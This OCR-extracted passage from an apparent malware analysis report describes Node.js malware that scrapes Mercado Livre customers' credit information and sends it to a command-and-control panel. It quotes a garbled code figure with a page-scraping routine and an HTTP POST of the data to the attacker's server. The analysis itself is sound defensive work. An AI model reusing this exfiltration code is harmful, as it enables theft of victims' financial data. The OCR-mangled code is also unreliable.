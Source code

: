 ![](_page_21_Figure_8.jpeg)

![](_page_21_Picture_9.jpeg)

The script will also attempt to navigate and scrape data from: "www.mercadolivre.com.br/credits/consumer/ administrator#menu-user", an online payment section of mercadolivre.com. As with the Mercadopago page, the script will attempt to read the data from this webpage as well, storing credit card data in two constant variables named "mcredito_selector" and "mcredito_available". Then, it will report its findings to the C2 server using the aforementioned printReport() function:

#### FIGURE 38

The Node.js malware collects financial information of mercado livre customers

| trv await page.goto(' |
| --- |
|  |
| waitUntil: 'load', timeout: 0 |
| }) |
| const mcredito selector = '.cl-info available-amount' |
| const mcredito available = await getInnerText (page, mcredito selector) |
| await printReport (page, 'MercadoCrédito Print', 'mercado credito' ) |
| if (typeof mcredito available != 'undefined') { |
| let uid = loadUID () |
| uid = uid ? uid : { uid: '' } |
| await httpPost ( ${painel url}/newMercadoCredito.php`, { |